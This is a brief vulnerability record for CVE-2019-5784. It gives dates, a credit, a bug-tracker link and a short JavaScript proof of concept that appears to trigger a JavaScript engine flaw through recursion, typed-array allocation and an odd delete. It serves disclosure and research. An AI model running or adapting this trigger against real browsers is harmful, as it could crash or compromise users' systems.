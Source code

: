 # CVE-2019-5784

- Report: Dec 2018
- Fix: Feb 2019
- Credit: lupin

## PoC

```javascript
var str = "AISpsjFbWLAZEYyNzx8j5yG8cWkK2Mgb";

function go(a,b,c) {
  try {
    for (var v_in in str) {
      try { go(undefined,-0,{});} catch(e) {}
      try { new Uint32Array(41902);} catch(e) {}
    }
  } catch(e) {}

  try {
    delete v_in.a;
  } catch(e) {}
}

go(-0,{},23704);
```

## Reference

- [Issue](https://crbug.com/915975)
